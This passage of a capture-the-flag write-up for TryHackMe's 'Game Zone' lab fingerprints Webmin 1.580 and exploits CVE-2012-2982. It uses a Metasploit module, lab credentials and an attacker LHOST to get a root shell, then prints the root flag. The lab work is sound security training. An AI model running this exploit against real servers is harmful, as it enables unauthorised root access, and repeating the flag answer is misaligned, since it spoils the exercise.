 
kali@kali:~/thm/gamezone$ curl -v http://localhost:10000
(...)
< HTTP/1.0 200 Document follows
< Date: Sun, 21 Jun 2020 19:55:38 GMT
< Server: MiniServ/1.580

### What is the CMS version?

> Réponse: **1.580**



https://www.exploit-db.com/exploits/21851
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)

CVE-2012-2982

```
msf5 > search webmin
(...)
4  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution

msf5 > use exploit/unix/webapp/webmin_show_cgi_exec
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     10000            yes       The target port (TCP)
   SSL       true             yes       Use SSL
   USERNAME                   yes       Webmin Username
   VHOST                      no        HTTP server virtual host

```

```
set USERNAME agent47
set PASSWORD videogamer124
set RHOSTS 127.0.0.1
set RPORT 10000
set SSL false
set LHOST 10.9.11.184
exploit
```

```
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
root.txt
cat /root/root.txt
a4b945830144bdd71908d12d902adeee
```